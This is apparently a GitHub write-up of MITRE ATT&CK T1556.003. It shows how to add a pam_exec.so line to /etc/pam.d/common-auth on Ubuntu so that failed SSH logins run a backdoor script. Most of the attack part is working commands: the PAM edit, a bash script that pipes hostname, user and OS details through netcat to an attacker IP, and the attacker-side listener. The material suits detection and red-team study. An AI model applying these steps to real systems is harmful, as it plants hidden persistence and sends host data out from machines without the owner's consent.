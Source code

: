 ## [T1556.003-Modify Authentication Process: Pluggable Authentication Modules](https://attack.mitre.org/techniques/T1556/003/)  

### Background  
The pam_exec.so module in Linux Pluggable Authentication Modules (PAM) provides a flexible mechanism to execute custom scripts during various authentication stages. While commonly used for legitimate logging and running scripts for automation, this feature can be maliciously abused to trigger backdoor scripts in response to specific authentication events. In this scenario lets see how to trigger backdoor for SSH failure logins on Ubuntu 22.04 and maintain persistence. This technique can work in all other ubuntu environments as well. While Group-IB showcased this [technique](https://www.group-ib.com/blog/pluggable-authentication-module/) on Red Hat-based systems like Fedora and CentOS, they didn’t cover Debian-based environments. Here, I demonstrate how the same method works on Ubuntu or Debian-Based Systems. 
### Test Environment: 
**Victim:** Ubuntu 22.04    
**Attacker:** Ubuntu 24.04 (You can choose any OS vendor for this)  
Install netcat on Attacker system.  
**Note:** You can try with any Operating Systems.  

### Implementation:  

#### Step1: Change the PAM config
At victim side, for getting persistence edit the file /etc/pam.d/common-auth file and add the following line below pam_unix.so line.  
``vim /etc/pam.d/common-auth``   
``auth optional pam_exec.so quiet setuid /tmp/s.sh``  
**Note1:** /tmp/s.sh file a backdoor script in this scenario.   
**Note2:** In PAM configuration, the **success=N** directive means: If the current module succeeds, skip the next N lines. So if the ssh authentication is successful the module has to skip the next  3 followed lines. Since the SSH authentication module currently uses success=2, and we are adding an additional line below it, we need to update this value to success=3 to ensure the correct number of lines are skipped on successful authentication.    
**Before:**   

![image](https://github.com/user-attachments/assets/da285bd7-1df4-40e2-9352-1e243c80b773)    

**After:**   

You can observe the modified success value to 3 in pam_unix.so line as shown.  

![PAM-Exec-SSHFailure](https://github.com/user-attachments/assets/d3cf8ab4-b491-46fc-a378-865b55e71808)  
Once you make any changes to PAM configuration you have to restart  
sudo systemctl restart ssh  


#### Step2: Drop Backdoor script 
At victim side. 
**Backdoor script:** 
```
#!/bin/bash 

REMOTE_IP="<attackerIP>" 
REMOTE_PORT="4444" 
echo -e "Hostname: $(hostname)\nUser: $(whoami)\nUptime: $(uptime)\nOSDetails:$(uname -a)" | nc $REMOTE_IP $REMOTE_PORT
```  
``chmod 770 /tmp/s.sh``  
``chmod +x /tmp/s.sh``  

#### Step3: Listen for incoming connections and try ssh auth failures - Attacker Side:  
listen for incoming connections.  
```nc -lvp 4444```  
Try repeatedly logging into the victim machine’s SSH with invalid credentials to generate authentication failures that will trigger the backdoor as shown below screenshot.  
```ssh user@<victimIp>```    
Finally the output looks like below.  

![450890823-89aadc9b-46ca-4925-8996-c6305434d260](https://github.com/user-attachments/assets/4a75f2ed-9450-4e07-87aa-d0ecb26511f4)  
